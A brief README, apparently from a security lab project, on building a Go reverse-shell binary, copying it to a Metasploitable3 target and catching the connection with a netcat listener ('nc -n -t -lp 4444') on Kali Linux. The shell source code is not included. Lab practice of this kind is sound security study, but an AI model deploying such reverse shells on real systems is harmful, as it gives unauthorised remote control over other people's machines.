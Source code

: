 # revshell
Reverse Shell


## Installing Go Compiler

curl -O https://dl.google.com/go/go1.10.3.linux-amd64.tar.gz

tar xf go1.10.3.linux-amd64.tar.gz

sudo chown -R root:root go

sudo mv go /usr/local/

vi /etc/profile

source ~/.profile

mkdir -p ~/work/revshell

cd ~/work/revshell

vi revshell.go

export GOOS=linux
export GOARCH=amd64

go build revshell.go

scp revshell vagrant@10.55.56.52:revshell

## Startup Target (Kali Linux)

nc -n -t -lp 4444

## Running Revshell (Metasploitable3 Ubuntu)

sudo ./revshell

